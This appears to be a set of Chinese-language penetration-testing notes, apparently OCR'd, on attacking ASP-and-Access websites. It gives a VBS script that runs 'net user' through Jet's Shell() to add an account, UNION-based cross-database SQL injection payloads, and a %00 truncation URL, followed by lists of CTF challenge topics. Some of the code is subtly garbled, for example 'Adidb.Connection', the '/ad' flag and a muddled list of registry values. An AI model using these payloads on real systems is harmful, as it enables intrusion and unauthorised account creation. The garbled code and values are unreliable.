 #### 命令执行

前提条件：HKEY_LOCAL_MACHINE\SoftWare\Microsoft\Jet\4.0\Engines里面的SandBoxMode

值的意义：

* 在任何所有者中都禁止启用安全设置
* 仅在允许的范围之内
* 必须是Access的模式下（若存在，默认此条件）
* 完全开启，连Access中也不支持
* 若存在，查看数据类型是否是0，若不存在新建DWORD类型，名称SandBoxMode,数值为0

新建脚本1.vbs：

	Set Conn=Createobject("Adidb.Connection")
	Conn.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data source=info.mdb"
	Set Rs=Conn.execute("Select Shell(""cmd.exe /c net user 1 123456 /ad"")")
	Msgbox Rs(0)

会新建一个用户密码为123456的用户1。

### 跨库查询

旁站拿下后，无法提权，可遍历目录，无法下载。知道数据库绝对路径和数据。两种手法：

1. union select 1,password,username,4,5,6 from [D:\info.mdb].admin
2. union select 1,password,username,4,5,6 from admin in '[D:\info.mdb]

数据库有密码的话需要
select * from [;database=路径;pwd=密码].表名

ACCESS跨库查询时的组合查询

>select * from qy1,qy2 in 'd:\testb.mdb' where qy1.qydm=qy2.qydm;
>select * from [;database=d:\testb.mdb].qy1, [;database=d:\testb.mdb].qy2 where qy1.qydm=qy2.qydm;

漏洞成因：access对表和列查询有问题，如果构造畸形表名，access会把找不到的表当做mdb文件查找，可以构造成类似于文件去硬盘上查找（默认在system32查找）。条件两条：asp+access，asp存在注入，且注入会有错误详细回显。

### Access其他
1. Access不存在注释，但是可以通过IIS的截断形成类似于注释的功能。
	* 例如%00截断：http://127.0.0.1/1.asp?id=1%00hello
2. Access不支持多行处理。 

### 入门题目

1. 备份文件泄露
2. xff绕过，robots.txt泄露
3. 图片信息泄露
4. cookie信息泄露
5. 注释泄露

### 中级题目

1. 编写脚本绕过极短时间限制自动化提交
2. XSS盲打，构造payload数据包。超大脑洞。。。
3. SQL注入，XFF
